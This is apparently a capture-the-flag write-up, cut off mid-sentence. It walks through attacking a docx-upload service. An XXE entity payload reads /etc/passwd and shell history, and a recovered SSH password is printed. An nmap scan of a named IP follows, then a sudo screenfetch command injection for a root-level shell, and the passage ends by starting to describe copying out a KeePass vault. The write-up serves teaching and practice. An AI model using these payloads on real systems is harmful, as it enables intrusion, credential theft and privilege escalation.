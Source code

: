 First, we can try listing users by looking at `/etc/passwd`, and to do so we can add the following lines to our `docProps/app.xml` file in the signed folder after the header as such :

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE Properties [
<!ENTITY payload SYSTEM "file:///etc/passwd">
]>
```

Then we can replace the value of the VictimId field as such to use our payload :

```xml
<VictimId>&payload;</VictimId>
```

Once done, we can zip the folder back to a docx file, and send it to the server. Then by pressing the READ VICTIM ID button, we can see that it succeeds and we get the content of the `/etc/passwd` file, and we can see that there are 3 users that are present on the server : `document-user`, `executor`, and `administrator`.
I then tried to list the `.bash_history` file of the `administrator` and `executor` users, but I did not get anything in return.
However, when I tried doing the same with the `document-user`, I got its command history successfully, so this means that the `document-user` user is the one that is used to run the web application. One interesting line that I found in the history is the following :

```bash
echo "cABdTXRyUj5qgAEl0Zc0a" >> /tmp/exec_ssh_password.tmp
```

This allowed me to deduce that the ssh password of the executor user is `cABdTXRyUj5qgAEl0Zc0a`. We now need to find a way to connect to the server with this password by SSH, so the first things to do was to find if a SSH port was indeed opened. To do so, we can use the `nmap` command as such :

```bash
nmap -Pn -T5 -p- 163.172.67.183
```

### SSH Connection and Privilege Escalation

Thanks to the `nmap` command we just ran, we can see that the port 22222 is open, and when we attempt to login via SSH with the executor user and the password we found on this port and IP adress, we gain access to a KaliLinux server as the `executor` user.
The first thing we do is to run the command `sudo -l` to see if we can run any command as another user, and we can see that the user `executor` can run the command `/usr/bin/screenfetch` as the `administrator` user. `screenfetch` is a simple fetch command that displays information about the system.
Analyzing the `screenfetch` options revealed that the `-o` option allows for setting script variables on the command line, thus making it possible to run a custom command with screenfetch as administrator.
The command is the following :

```bash
sudo -u administrator /usr/bin/screenfetch -o 'command=hello; /bin/bash'
```

This command allows us to get a bash shell as `administrator`, and then upon inspection of `administrator`'s home directory, we see that there are two interesting files, `vault.kdbx` and `logo.jpg`. We encoded these files in base64, copied them to our machine, and decoded them again to get the original files. A better way of doing this could be by using `netcat` by running this command on your machine :
